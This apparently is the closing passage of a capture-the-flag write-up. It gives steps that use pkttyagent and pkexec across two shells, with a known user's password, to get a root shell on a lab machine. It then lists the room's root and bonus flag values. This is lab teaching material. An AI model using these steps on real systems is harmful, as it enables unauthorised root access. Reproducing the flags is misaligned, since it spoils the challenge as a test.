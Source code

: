 >> it requires two shells.
>> first find the process id of current session.
# echo $$
--> <Process_id>
>> now run in second shell:
# pkttyagent --porcess <Process_id>
>> now in the first shell run:
# pkexec /bin/bash
>> on second shell:
# password prompt is display : write the password of chuck and press enter
>> at last got a root shell on first shell.

# ROOT.TXT : THM{5c5b7f0a81ac1c00732803adcee4a473cf1be693}

>> bonus flag found in .bash_history file

# bonus.txt : THM{a975c295ddeab5b1a5323df92f61c4cc9fc88207}





